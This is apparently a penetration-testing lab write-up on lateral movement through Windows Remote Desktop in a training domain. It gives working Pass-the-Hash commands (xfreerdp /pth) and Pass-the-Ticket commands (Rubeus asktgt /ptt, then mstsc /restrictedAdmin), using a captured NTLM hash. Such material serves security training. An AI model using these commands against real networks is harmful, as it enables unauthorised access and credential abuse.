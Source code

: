 
![Lateral Movement](/Remote_Services/Remote-Desktop-Services/images/ping-sweep.png) 

1. 172.20.0.10
2. 172.20.0.51
3. 172.20.0.52


### Pass the Hash and Pass the Ticket for RDP 


> Once we confirm Restricted Admin Mode is enabled, or if we can enable it, we can proceed to perform Pass the Hash or Pass the Ticket attacks with RDP. 
> 
> To perform Pass the Hash from a Linux machine, we can use xfreerdp with the /pth option to use a hash and connect to RDP. Here's an example command: 
>
> As we can see RestrictedAdmin is enabled on host 172.20.0.52


![Lateral Movement](/Remote_Services/Remote-Desktop-Services/images/reg-check.png) 


	
	$ proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52
	

> For **Pass the Ticket** we can use [Rubeus](https://github.com/GhostPack/Rubeus). We will forge a ticket using Helen's hash. First we need to launch a sacrificial process with the option createnetonly: 

	
	C:\> Rubeus.exe createnetonly /program:powershell.exe /show
	


![Lateral Movement](/Remote_Services/Remote-Desktop-Services/images/ptt-1.png) 


> In the new PowerShell window we will use Helen's hash to forge a Ticket-Granting ticket (TGT): 

	
	PS C:\> .\Rubeus.exe asktgt /user:helen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt
	

![Lateral Movement](/Remote_Services/Remote-Desktop-Services/images/ptt-2.png) 



> From the window where we imported the ticket, we can use the mstsc /restrictedAdmin command: 

	
	PS C:\Tools> mstsc.exe /restrictedAdmin
	
> And we have successfully pivoted from SVC01 to SVC02 with a Pass the Ticket attack. 

![Lateral Movement](/Remote_Services/Remote-Desktop-Services/images/ptt-3.png) 


